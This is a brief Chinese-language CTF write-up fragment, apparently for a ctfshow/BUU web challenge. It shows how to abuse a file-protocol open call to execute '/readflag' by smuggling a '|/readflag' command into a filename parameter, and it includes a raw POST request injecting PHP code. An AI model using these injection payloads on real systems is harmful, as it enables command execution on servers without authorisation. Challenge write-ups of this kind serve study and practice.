 然后将数据存入自己定义的路径

```php
?url=/&filename=aaa
```

![image-20220914161102390](D:\Typora\note\CTF\web\ctfshow_vip\SSRF.assets\image-20220914161102390.png)

直接读flag是行不通的，很明显要执行那个**readflag**命令

而**GET**命令在执行**file**协议时会调用**open**，而**open**命令会进行命令执行，但前提是该文件存在

```php
?url=&filename=|/readflag  #先创建该文件
?url=file:|/readflag&filename=abc  #利用file的open进行命令执行并把结果存入abc
http://8e43eaf3-33d8-4fae-9336-4977010900a2.node4.buuoj.cn:81/sandbox/230317844a87b41e353b096d0d6a5145/abc
#访问abc
```

```
POST /a.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
 
c=echo(1234);
```



